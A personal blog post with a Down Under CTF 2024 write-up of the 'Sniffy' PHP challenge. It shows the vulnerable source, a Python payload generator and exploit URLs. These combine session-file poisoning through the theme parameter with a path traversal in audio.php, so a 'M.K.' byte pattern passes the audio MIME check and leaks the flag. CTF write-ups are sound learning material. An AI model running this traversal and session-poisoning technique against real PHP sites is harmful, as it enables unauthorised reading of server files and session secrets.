

Week 11 - DUCTF - Sniffy
July 2024 (1244 Words, 7 Minutes)
For the 3 4 people that read this and have been waiting for me next post with bated breath, I started last month as a Security Engineer Intern at Affirm, so I moved out to beautiful (and busy) San Francisco on about 2 weeks notice for the summer. Things are a little crazy, to say the least. Now that life has chilled out a bit, I should be able to get back into my routine of publishing these posts. However, life will not return any sense of normalcy until I find a cheap Mexican spot that’s open 24/7 within half a mile of my coffin apartment in SOMA neighborhood. For now, I am relying on the endurance I acquired during the great Provo Rancheritos Remodeling Riots of 2022. Musing about my lack of good nutrition aside, I am thoroughly thankful for the opportunity to be working and living here.
This weekend, I participated in the very good Down Under CTF under BYU Cyberia. After this CTF, even though we finished in 95th, we are now 16th in the country! We’ve been working hard, and I’m very happy to see our efforts be rewarded. I didn’t solve any challenges, but in my attempts, I did learn a lot. Here’s my post-CTF writeup of Sniffy. I was actually on the correct track, but I missed a few key details.
Sniffy
We get a nice little website of kookaburra sounds, where we can switch themes on the top right: 
We also get a file download for the website with a Dockerfile. It looks like this is a php application running from the php:8.3-apache base image. We also get some php logic in the index.php:
<?php
include 'flag.php';
function theme() {
return $_SESSION['theme'] == "dark" ? "dark" : "light";
}
function other_theme() {
return $_SESSION['theme'] == "dark" ? "light" : "dark";
}
session_start();
$_SESSION['flag'] = FLAG; /* Flag is in the session here! */
$_SESSION['theme'] = $_GET['theme'] ?? $_SESSION['theme'] ?? 'light';
Here, it loads the flag into the $_SESSION variable. $_SESSION is a global variable used by an individual user with a session. We also get a file called audio.php
<?php
$file = 'audio/' . $_GET['f'];
if (!file_exists($file)) {
http_response_code(404); die;
}
$mime = mime_content_type($file);
error_log(print_r($mime, TRUE));
if (!$mime || !str_starts_with($mime, 'audio')) {
http_response_code(403); die;
}
header("Content-Type: $mime");
readfile($file);
There’s a pretty obvious Local File Inclusion and Path Traversal vulnerability. It looks like we can include almost any file on the container’s file system using the f= argument, but it checks the result of mime_content_type to see if it’s some kind of audio type. Doing some digging, it looks like this function pulls from configuration defined in /etc/magic.mime and /etc/magic. However, it doesn’t look like my files don’t contain any configuration. I spun my wheels a little bit, until I realized that this was all being run from the an Apache container. I started up the container by running:
docker run --name sniffy -it p 8080:80 sniffy
Then in a different tmux window, I ran:
docker exec -it sniffy /bin/bash
Digging around in documentation, I found that Apache consults /etc/apache/magic when deciding a MIME type. I also think that the file command consults this file. I found it in the running container, and I pulled that down to my host OS with:
docker cp sniffy:/etc/apache/magic .
In these config files, you can list a starting byte and a byte pattern to match. I’m sure you can do some more complex stuff but here it’s basically “Is there these bytes? Then it’s these data types.” On line 51, /etc/magic/mime declares that if the bytes 1080-1083 are M.K., the file will be defined audio/x-mod:
1080 string M.K. audio/x-mod
How does this help us? Well, here’s where I failed to recognize during the CTF that every session that is managed by a PHP runtime is actually a plaintext file under /tmp/sess_<PHPSESSID>. Where <PHPSESSID> is the cookie assigned by PHP for your session. Let’s test this out by visiting the web page and getting a session cookie:
PHPSESSID: p7n6b4g9vk20b2kh0cm5u87v0u
We can now enter the docker container with (assuming the container is still running):
docker exec -it /bin/bash sniffy
And catting out that file:
root@baaa20612aq35:/tmp$ cat sess_p7n6b4g9vk20b2kh0cm5u87v0u
flag|s:7:"DUCTF{}";theme|s:5:"light";
Now, looking at line 16 in index.php, we can see that we have complete control over the value of $_SESSION['theme']:
$_SESSION['theme'] = $_GET['theme'] ?? $_SESSION['theme'] ?? 'light';
This line of code will set $_SESSION['theme'] to the value of the theme argument, if it’s present.
We can test this out by visiting localhost:8080/index.php?theme=asdfasdfasdf in the browser. Then we cat out the session file in the container:
root@baaa20612aq35:/tmp$ cat sess_p7n6b4g9vk20b2kh0cm5u87v0u
flag|s:7:"DUCTF{}";theme|s:12:"asdfasdfadsf";
Looks like we’re able to write arbitrary values to our session file. We now have a pretty straightforward process for constructing a payload:
- Find a sequence of characters that will make the
mime_content_typecall inaudio.phpthink that the content that it is evaluating is some kind of audio type. - Set a user’s
$_SESSION['theme']to that sequence of characters. - Visit
audio.phpand load the session file for that user, which will expose the flag!
For the sequence of characters, let’s choose the requirement that M.K. be in bytes 1080-1083, tricking the mime_content_type call into thinking that the session file is actually an audio/x-mod file. Let’s do a quick and dirty python script to generate all 4 possible payloads:
for i in range(4):
payload = 'a' * i + 'M.K.' * 0x400
print(payload)
print('-' * 40)
Visiting https://web-sniffy-d9920bbcf9df.2024.ductf.dev/index.php?theme=M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.... will set the cookie. Now, looking at our cookie, we know what our session cookie is, and thus the path to our session file: PHPSESSID: 03du87nmd49q40acbknvvc0prr. Trying to visit https://web-sniffy-d9920bbcf9df.2024.ductf.dev/audio.php?f=../../../../tmp/sess_03du87nmd49q40acbknvvc0prr returns a 403, which means that this payload didn’t work. Let’s try the second payload, where the repeating M.K. is offset by one character. Success! It looks like it downloaded as an audio file too. Catting it out shows the (uniquely Australian) flag!
flag|s:52:"DUCTF{koo-koo-koo-koo-koo-ka-ka-ka-ka-kaw-kaw-kaw!!}";theme|s:4097:"aM.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K.M.K....
I’m disappointed I wasn’t able to crack this challenge, but I’m very impressed with the final payload, and congratulate those who beat this challenge. The upshot is I’ve finally finally finally learned how to use containers. I never bothered to wade through the sea of terminology until now.
Music from this week month
Llorar - Los Socios Del Ritmo Mentirosa - Rafaga El Chico Del Apartamento 512 - Selena La Vida es Un Carnaval - Celia Cruz Sleep Is For the Weak - The Dreadnoughts Get Up Offa That Thing- James Brown Chattahoochee - Alan Jackson